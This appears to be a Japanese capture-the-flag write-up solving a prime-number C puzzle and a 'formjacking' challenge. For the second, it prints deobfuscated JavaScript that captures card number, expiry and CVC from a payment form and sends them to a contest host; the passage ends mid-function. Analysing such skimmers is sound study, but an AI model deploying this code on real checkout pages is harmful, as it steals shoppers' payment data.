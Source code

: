 ### 暗算でもできるけど？

下記のコードの出力結果の68番目の値と314番目の値とを加算した値を求める問題です。
```c
#include <stdio.h>
int main(){
    int loopc = 0;
    // int i,j,k,l;k=(((10/2*4/10*4/2)+97)*10)-10;
    int i,j,k,l;k=3000;
    printf("init k: %d\n", k);
    for(i=2;i<=k;++i){
        l=0;
        for(j=2;j<i;++j){
            if(i%j==0){
                l=1;
                break;
            }
        }
        if(l==0) {
            loopc++;
            printf("%d: %d\r\n",loopc,i);
        }
    }
    return 0;
}
```
このコードはforループでiが1000まで続いていて、314番目の結果まで出力してくれる長さではありません。
そこで終了条件のkを3000に増やして、iが3000まで続くようにして値を求めます。
```
flag{2420}
```

### formjacking

難読化されたJSの解読問題です。
最終的にそこで送信されているHTTPリクエストを特定する問題です。
難読化はこちらのサイトで解除しました。(https://trumanwl.com/ja/crypto/javascript-deobfuscator)
難読化を解除したコードがこちらです。
```javascript
document.querySelector("#card-expiry-element > form").addEventListener("submit", function (_0x2791c1) {
  _0x2791c1.preventDefault();
  const _0x5930f7 = "Skimming=true";
  const _0x9ae3dd = document.querySelector("input[name='cardnumber']").value;
  if (!_0x12237f(_0x9ae3dd)) {
    return false;
  }
  const _0x57060f = document.querySelector("input[name='exp-date']").value;
  const _0x33294f = document.querySelector("input[name='cvc']").value;
  function _0x3bb027() {
    const _0x3e5fd8 = "https://pg3.2025winter-cybercontest.net/pg3?cardnumber=" + encodeURIComponent(_0x9ae3dd) + "&exp-date=" + encodeURIComponent(_0x57060f) + "&cvc=" + encodeURIComponent(_0x33294f) + "&" + _0x5930f7;
    return _0x3e5fd8;
  }
  function _0x12237f(_0x8c4fb5) {
    let _0x39e251 = 0;
    let _0x5d648f = false;
    for (let _0x23cadc = _0x8c4fb5.length - 1; _0x23cadc >= 0; _0x23cadc--) {
      let _0x3adf4b = parseInt(_0x8c4fb5[_0x23cadc]);
      if (_0x5d648f) {
        _0x3adf4b *= 2;
        if (_0x3adf4b > 9) {
          _0x3adf4b -= 9;
```
